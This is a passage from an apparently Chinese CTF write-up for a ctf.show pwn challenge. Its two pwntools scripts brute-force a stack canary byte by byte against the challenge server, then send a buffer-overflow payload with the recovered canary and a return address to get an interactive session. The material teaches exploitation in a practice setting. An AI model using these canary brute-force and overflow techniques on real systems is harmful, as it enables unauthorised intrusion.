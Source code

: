    ![image-20240706184250681](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407061842776.png)

   第四个：

   ```python
   from pwn import *
   
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   
   for i in range(0xff):
       p = remote("pwn.challenge.ctf.show",28104)
       p.recvuntil(b"How many bytes do you want to write to the buffer?\n>")
       p.sendline(b'100')
       p.recv()
       payload = b'a'*(32)+int.to_bytes(51)+int.to_bytes(54)+int.to_bytes(68)+int.to_bytes(i)
       p.send(payload)
       data = p.recv()
       if b"flag" in  data:
           canary = data
           print(canary,i)
           break
   ```

   ![image-20240706184354494](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407061843593.png)

3. 所以最后canary确定为0x21443633。注意大小端序，最后验证爆破的canary:

   ```python
   from pwn import *
   
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   
   p = remote("pwn.challenge.ctf.show",28104)
   p.recvuntil(b"How many bytes do you want to write to the buffer?\n>")
   p.sendline(b'100')
   p.recv()
   payload = b'a'*(32)+p32(0x21443633)+b'a'*(0xc+4)+p32(0x08048696)
   p.send(payload)
   p.recv()
   p.interactive()
   
   ```

   ![image-20240706184952360](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407061849491.png)

